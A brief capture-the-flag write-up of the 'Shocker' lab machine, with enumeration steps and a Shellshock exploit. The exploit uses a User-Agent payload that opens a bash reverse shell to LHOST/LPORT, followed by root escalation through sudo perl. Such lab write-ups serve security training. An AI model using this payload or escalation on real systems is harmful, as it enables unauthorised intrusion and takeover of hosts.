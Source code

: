 ## Foothold

1. Upon running nmap we can see that there are two ports running: 80, 2222(custom ssh port)
2. Visiting the site, there aren't many attack vectors present.
3. As the name of the box suggests shocker, it might be prone to shellshock. Checking for cgi-bin, we get 300
4. We can run gobuster on 10.10.10.56/cgi-bin/ with -x pl,py,sh,cgi
5. We get a hit for user.sh, thus this can be our entry point.
7. Run a listener on any port.
6. Use the python script, or just change the User-Agent of our request to:  () { :; }; /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1 &
7. We can get a rev shell for shelly. Cat out the user.txt

## Priv Esc

8. sudo -l gives that we can run /usr/bin/perl as root with NOPASSWD.
9. sudo perl -e 'exec "/bin/bash"'
10. Gives us a root shell

